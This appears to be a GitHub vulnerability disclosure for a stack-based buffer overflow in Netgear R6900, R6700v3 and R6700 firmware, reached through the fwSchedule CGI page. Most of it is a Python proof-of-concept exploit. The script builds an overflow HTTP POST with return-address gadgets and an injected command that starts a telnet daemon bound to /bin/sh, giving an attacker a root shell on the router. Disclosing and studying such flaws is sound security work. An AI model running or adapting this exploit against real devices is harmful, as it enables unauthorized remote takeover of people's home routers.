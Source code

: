 # Netgear Routers vulnerability
Netgear includes three new versions of firmware, R6900 1.0.2.26, R6700v3 1.0.4.128, R6700 1.0.0.26. These versions of the firmware are vulnerable to a stack overflow as shown below.

![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/netgear/vlun.png)

where sprintf v24 has only a finite size of 92 and getInputData v6, v21, v20, v19, v18 are controllable and may overflow the stack-based buffer.
By requesting the /fwSchedule.cgi page, an attacker can execute a denial-of-service attack or remote code execution using carefully crafted overflow data.

## POC
```
import socket
import sys

header = 'POST /fwSchedulePPP2.cgi?.css.ico/xxx/rpc/ HTTP/1.1\r\nHost: 127.0.0.1\r\nConnection: keep-alive\r\nAccept-Encoding: gzip, deflate\r\nAccept: */*\r\nUser-Agent: python-requests/2.23.0\r\nContent-Length: %d\r\n\r\n'
post_data = 'action=%E5%BA%94%E7%94%A8&checkboxNameAll=checkboxValue&checkboxNamehours=checkboxValue&schedule_day=255&schedule_alldayenable=0&starthour=0&startminute=0&endhour=23&result=apply&enable_apmode=0&endminute=59:00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000'
gadget = '%84%b7%03%00'
pad = '\x00'+'a'*(0x2d1 - len(post_data + gadget))
gadget2 = '\x48\xf5\x0c\x00'
cmd = '/bin/utelnetd -l/bin/sh -d;\x00'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1] , int(sys.argv[2])))
s.send(header % len(post_data+gadget) + post_data + gadget + pad + gadget2 + cmd)
s.close()
```
## Timeline

## Acknowledgment
Credit to @XYlearn and @Funcy_kilar from Fudan University, Guangzhou University.
